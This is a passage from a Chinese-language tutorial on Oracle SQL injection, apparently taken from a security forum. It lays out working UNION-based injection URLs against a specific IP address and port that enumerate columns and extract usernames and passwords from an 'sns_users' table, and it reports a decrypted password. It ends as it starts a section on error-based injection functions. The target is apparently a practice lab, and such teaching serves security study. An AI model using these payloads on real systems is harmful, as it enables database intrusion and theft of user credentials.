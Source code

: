 ```sql
http://219.153.49.228:43469/new_list.php?id=-1 union select 'null',(select column_name from user_tab_columns where table_name='sns_users' and rownum=1 and column_name like '%USER%') from dual

http://219.153.49.228:43469/new_list.php?id=-1 union select 'null',(select column_name from user_tab_columns where table_name='sns_users' and rownum=1 and column_name like '%USER%' and column_name <> 'USER_NAME') from dual
```

#### 8、查询数据库数据

获取账号密码字段内容

```sql
http://219.153.49.228:43469/new_list.php?id=-1 union select USER_NAME,USER_PWD from "sns_users" where rownum=1
```

[![img](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095412-df800094-f00f-1.png)](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095412-df800094-f00f-1.png)

```sql
http://219.153.49.228:43469/new_list.php?id=-1 union select USER_NAME,USER_PWD from "sns_users" where rownum=1 and USER_NAME <> 'zhong'
```

[![img](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095413-dfadad1e-f00f-1.png)](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095413-dfadad1e-f00f-1.png)

```sql
http://219.153.49.228:43469/new_list.php?id=-1 union select USER_NAME,USER_PWD from "sns_users" where rownum=1 and USER_NAME <> 'zhong' and USER_NAME not in 'hu'
```

[![img](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095413-dfd83534-f00f-1.png)](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095413-dfd83534-f00f-1.png)
解密获取密码392118
[![img](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095413-dffb2008-f00f-1.png)](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095413-dffb2008-f00f-1.png)

#### 9、美化输出

Oracle采用||进行数据连接

```sql
http://219.153.49.228:44768/new_list.php?id=-1 union select '用户名：'||USER_NAME,'密码：'||USER_PWD from "sns_users" where rownum=1
```

[![img](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095414-e020b3cc-f00f-1.png)](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095414-e020b3cc-f00f-1.png)

# 0x04 报错注入

报错注入是一种通过函数报错前进行子查询获取数据，再通过错误页面回显的一种注入手法，下面介绍几种报错注入函数以及获取一些常见的获取数据，实际操作只需要将子查询内的查询语句进行替换即可。

#### 1、ctxsys.drithsx.sn()
